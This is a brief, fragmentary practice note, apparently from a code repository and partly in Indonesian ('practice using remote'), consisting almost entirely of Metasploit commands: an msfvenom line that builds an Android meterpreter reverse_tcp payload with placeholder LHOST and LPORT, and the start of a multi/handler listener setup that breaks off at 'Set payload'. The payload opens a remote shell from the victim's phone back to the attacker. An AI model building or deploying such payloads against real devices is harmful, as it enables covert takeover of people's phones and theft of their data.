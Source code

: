 # remote
latihan menggunakan remote
msfvenom -p android/meterpreter/reverse_tcp LHOST LPORT R > LOCATE
use exploit/multi/handler
Set payload 

